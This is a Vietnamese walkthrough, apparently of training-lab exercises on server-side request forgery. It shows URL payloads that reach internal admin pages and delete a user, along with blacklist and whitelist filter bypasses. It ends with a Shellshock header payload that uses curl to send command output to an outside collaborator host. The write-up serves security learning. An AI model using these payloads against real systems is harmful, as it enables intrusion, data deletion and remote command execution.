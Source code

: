 # web05

# SSRF

### **Basic SSRF against the local server**

Chức năng check stock sẽ gửi request đến một URL khác để lấy thông tin về stock

![Untitled](writeup_media/Untitled.png)

Ta có thể đổi URL thành `http://localhost/admin` để website hiển thị dữ liệu trang Admin

![Untitled](writeup_media/Untitled%201.png)

Gửi request với payload `http://localhost/admin/delete?username=carlos` để xóa user `carlos`

---

### **Basic SSRF against another back-end system**

Ta sẽ sử dụng chức năng check stock để tấn công SSRF đến các địa chỉ local khác.

![Untitled](writeup_media/Untitled%202.png)

Gửi request check stock vào Intruder để bruteforce địa chỉ ip

![Untitled](writeup_media/Untitled%203.png)

![Untitled](writeup_media/Untitled%204.png)

thấy địa chỉ `192.168.1.220` có phản hồi lại. Gửi vào repeater, thay thử path `/` thành `/admin` 

![Untitled](writeup_media/Untitled%205.png)

Gửi request với payload  `http://192.168.0.220:8080/admin/delete?username=carlos` để xóa user `carlos`

---

### **SSRF with blacklist-based input filter**

Chức năng check stock đã có filter `admin` và `127.0.0.1` để chống SSRF

---

![Untitled](writeup_media/Untitled%206.png)

![Untitled](writeup_media/Untitled%207.png)

Ta có thể bypass bằng `127.1` và `%2561dmin` (url encode 2 lần ký tự `a` trong `admin`)

![Untitled](writeup_media/Untitled%208.png)

Gửi request với payload `http://127.1/%2561dmin/delete?username=carlos` để xóa user `carlos`

---

### **SSRF with filter bypass via open redirection vulnerability**

Nhận thấy khó có thể bypass được SSRF filter ở param `stockApi` ở phần check stock, ta thử các chức năng khác. Khi ấn Next product, ta thấy website sẽ redirect dựa vào param `path`

![Untitled](writeup_media/Untitled%209.png)

Ta có thể thay đổi param đó để server gửi redirect về `/admin`. Tuy nhiên server sẽ chỉ trả request redirect về browser chứ không hiển thị website cuối cùng sau khi redirect

![Untitled](writeup_media/Untitled%2010.png)

Ta có thể gửi payload này vào param `stockApi` ở chức năng check stock để có thể hiển thị nội dung website

![Untitled](writeup_media/Untitled%2011.png)

Gửi request với payload `http://127.1/%2561dmin/delete?username=carlos` để xóa user `carlos`

![Untitled](writeup_media/Untitled%2012.png)

---

### **SSRF with whitelist-based input filter**

Sau một hồi thử các loại bypass, ta đến được với payload sau

![Untitled](writeup_media/Untitled%2013.png)

(nguồn: [A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

Thử gửi payload thử, ta thấy server vẫn nhận host không phải `stock.weliketoshop.net`

![Untitled](writeup_media/Untitled%2014.png)

Lý do có thể do paser hiển đoạn sau dấu `#` là `URL fragment`. Do đó ta có thể double URL encode, để paser không dịch thành `#` nhưng khi vào `requester` sẽ dịch là `#`. 

![Untitled](writeup_media/Untitled%2015.png)

Gửi request với payload `http://127.0.0.1%2523@stock.weliketoshop.net/admin/delete?username=carlos` để xóa user `carlos`

---

### Blind SSRF with out-of-band detection

Dựa vào mô tả, ta biết website sẽ fetch URL ở  `Referer` header khi request đến trang sản phẩm

![Untitled](writeup_media/Untitled%2016.png)

Thay `Referer` thành địa chỉ của Burp Collab của mình, gửi request đi và thấy có request đến Burp Colllab

![Untitled](writeup_media/Untitled%2017.png)

---

### **Blind SSRF with Shellshock exploitation**

Dựa vào mô tả, ta biết website sẽ kết nối đến URL ở  `Referer` header khi request đến trang sản phẩm

![Untitled](writeup_media/Untitled%2018.png)

Để kiểm tra, thay header `Referer` thành địa chỉ của Burp Collab của mình, gửi request đi và thấy có request HTTP đến Burp Colllab với `User-Agent` giống với `User-Agent` từ request của ta. Như vậy ta có thể thực hiện `Shellshock attack`.

![Untitled](writeup_media/Untitled%2019.png)

Ta có thể scan ip của internal server bằng cách bruteforce vị trí `X`.  Output sẽ được gửi thông qua `Shellshock attack`.

![Untitled](writeup_media/Untitled%2020.png)

Craft `Shellshock` payload

```bash
User-Agent: () { foo;}; curl "http://hpanp0p5r5akplmjoy649mgp3g98xx.burpcollaborator.net/?c=${whoami}"
```

Dùng `Intruder` để bruteforce ip

![Untitled](writeup_media/Untitled%2021.png)

Nhận được request với param `c` là username